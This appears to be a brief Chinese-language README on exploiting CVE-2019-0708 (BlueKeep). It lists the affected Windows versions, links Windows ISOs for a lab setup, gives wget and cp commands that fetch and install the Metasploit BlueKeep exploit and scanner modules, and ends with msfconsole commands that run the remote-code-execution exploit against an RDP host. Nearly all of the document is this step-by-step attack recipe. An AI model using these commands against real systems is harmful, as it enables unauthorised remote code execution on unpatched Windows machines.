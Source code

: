 影響版本：
----------

Windows 7

Windows Server 2008 R2

Windows Server 2008

Windows 2003

Windows XP

環境：
------

Windows7： [ed2k://|file|cn_windows_7_ultimate_with_sp1_x64_dvd_u_677408.iso|3420557312|B58548681854236C7939003B583A8078|/](ed2k://|file|cn_windows_7_ultimate_with_sp1_x64_dvd_u_677408.iso|3420557312|B58548681854236C7939003B583A8078|/)

windows 2008 R2： [ed2k://|file|cn_windows_server_2008_r2_hpc_x64_dvd_552764.iso|2959194112|1941C1937261AB4F6F9A28F86FE3DAC0|/](ed2k://|file|cn_windows_server_2008_r2_hpc_x64_dvd_552764.iso|2959194112|1941C1937261AB4F6F9A28F86FE3DAC0|/)

利用代碼：
----------

wget <https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/lib/msf/core/exploit/rdp.rb>

wget <https://github.com/rapid7/metasploit-framework/raw/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/auxiliary/scanner/rdp/rdp_scanner.rb>

wget <https://github.com/rapid7/metasploit-framework/raw/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb>

wget <https://github.com/rapid7/metasploit-framework/raw/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/auxiliary/scanner/rdp/cve_2019_0708_bluekeep.rb>

cp rdp.rb /usr/share/metasploit-framework/lib/msf/core/exploit/

cp rdp_scanner.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/

cp cve_2019_0708_bluekeep_rce.rb /usr/share/metasploit-framework/modules/exploits/windows/rdp/

cp cve_2019_0708_bluekeep.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/rdp/

MSF利用：
---------

`
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

set rhosts 192.168.9.132

set rport 3389

set target 3

exploit
`